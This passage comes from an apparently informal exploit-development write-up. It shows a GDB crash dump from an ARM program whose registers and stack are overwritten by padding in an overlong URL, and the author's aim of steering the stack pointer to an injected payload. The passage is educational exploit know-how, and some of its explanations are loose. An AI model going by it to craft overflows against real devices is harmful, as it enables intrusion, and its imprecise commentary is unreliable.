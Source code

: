 If you're anything like me, it's all Greek to you too. But here's some key takeaways: Those $r#'s are all memory pointers in the program, like variables. In $r3-$r6 you can clearly see random garbled text that was generated by this script. Our goal is to inject our payload in such a way that the $sp register points to the memory location of our stored process to be evaluated and executed. Let's try changing some of the commented out text in the script to see if it nudges anything.

```bash
Program received signal SIGSEGV, Segmentation fault.
0x5c582762 in ?? ()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$r0  : 0x400876b8  →  0x400855e8  →  0x40087200  →  0x40085e00  →  0x40086ff8  →  0x40086618  →  0x40086410  →  0x400878c0
$r1  : 0x000757b4  →  0x40083c80  →  0x40087450  →  0x40086c88  →  0x40086e90  →  0x40086ef0  →  0x40086ca0  →  0x40086d00
$r2  : 0x5       
$r3  : 0x400876c0  →  "http://BBBBBBBBBBBB/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r4  : 0x41414141 ("AAAA"?)
$r5  : 0x41414141 ("AAAA"?)
$r6  : 0x70414141 ("AAAp"?)
$r7  : 0x0007580c  →  0x00000006
$r8  : 0x3       
$r9  : 0x40085640  →  "text/html"
$r10 : 0x0       
$r11 : 0xbefffbd0  →  0x00000000
$r12 : 0x400855e8  →  0x40087200  →  0x40085e00  →  0x40086ff8  →  0x40086618  →  0x40086410  →  0x400878c0  →  0x40087b28 ("({\b@"?)
$sp  : 0xbefff5c8  →  "x0b\x06@'BBBBCCCCDDDDb'\x9c\x07\x06@'EEEEb'\x98J\x[...]"
$lr  : 0x5c582762 ("b'X\"?)
$pc  : 0x5c582762 ("b'X\"?)
$cpsr: [negative zero CARRY overflow interrupt fast thumb]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xbefff5c8│+0x0000: "x0b\x06@'BBBBCCCCDDDDb'\x9c\x07\x06@'EEEEb'\x98J\x[...]"    ← $sp
0xbefff5cc│+0x0004: 0x40363078
0xbefff5d0│+0x0008: 0x42424227
0xbefff5d4│+0x000c: 0x43434342
0xbefff5d8│+0x0010: 0x44444443
0xbefff5dc│+0x0014: 0x5c276244
0xbefff5e0│+0x0018: 0x5c633978
0xbefff5e4│+0x001c: 0x5c373078
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:arm:ARM ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x5c582762
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, stopped 0x5c582762 in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Again we crashed, but now we can see some of the data, and it LOOKS like hex to me! Don't judge me if you know better already.
